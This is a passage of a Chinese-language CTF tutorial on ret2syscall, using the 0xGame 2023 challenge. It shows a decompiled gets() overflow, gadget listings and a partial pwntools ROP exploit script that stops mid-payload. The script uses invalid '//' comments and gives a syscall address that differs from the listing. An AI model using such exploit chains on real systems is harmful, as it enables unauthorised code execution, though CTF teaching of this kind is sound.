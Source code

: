 pwntools 为我们提供了预先写好了各种 shellcode 的 shellcraft 模块，和用于编译 shellcode 的 asm 函数。这里，我们使用了 rjust 函数，它可以将我们的字符串对齐到指定的宽度，并填充指定的字符串用于对齐。

## ret2syscall

有时候，如果程序中没有后门函数，我们可以手动通过各种 gadgets 拼接出自己想要的代码来得到权限。而在 syscall 中有许多诸如 execve 之类的函数可以让我们执行任意代码。

在进行 syscall 的时候，我们需要设置 rax 寄存器的值来指定要执行的系统调用号。其中，execve 对应的系统调用号是 0x3B。

**0xGame 2023 ret2syscall**

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[16]; // [rsp+0h] [rbp-10h] BYREF

  bufinit(argc, argv, envp);
  puts("I leave something interesting in this program.");
  puts("Now try to find them out!");
  puts("Input: ");
  gets(v4);
  return 0;
}
```

程序提到了这里藏有一些有趣的东西，我们可以发现程序贴心地为我们提供了许多有用的 gadgets：

**set_rax**

```assembly
.text:0000000000401196                 endbr64
.text:000000000040119A                 push    rbp
.text:000000000040119B                 mov     rbp, rsp
.text:000000000040119E                 mov     [rbp-4], edi
.text:00000000004011A1                 mov     eax, [rbp-4]
.text:00000000004011A4                 pop     rbp
.text:00000000004011A5                 retn
```

这个函数会将 rax 的值设置成 edi 的值。

**gadget**

```assembly
.text:00000000004011AE                 syscall                 ; LINUX -
```

我们会遇到程序中没有 `/bin/sh`等我们想要的字段，这时我们可以再构造一些代码将这些数据写入到我们可控的位置。

```python
from pwn import *

context(arch="amd64", os="linux")

s = gdb.debug("./ret2syscall", "break main")
elf = ELF("./ret2syscall")

setrax = 0x401196
syscall = 0x4011AA
csu1 = 0x4012DA
csu2 = 0x4012C0
rdi = 0x4012E3            // pop rdi

bss = 0x404500            // bss段，可读可写
execve = 0x3B             // execve 的系统调用号

payload = flat([
    b"a" * 0x18,          // 覆盖到 retn 地址
    rdi, bss,             // 将 rdi 设置为 bss 起始地址
    elf.plt.gets,         // 执行 gets，将自定义数据写入 rdi 指向的值
```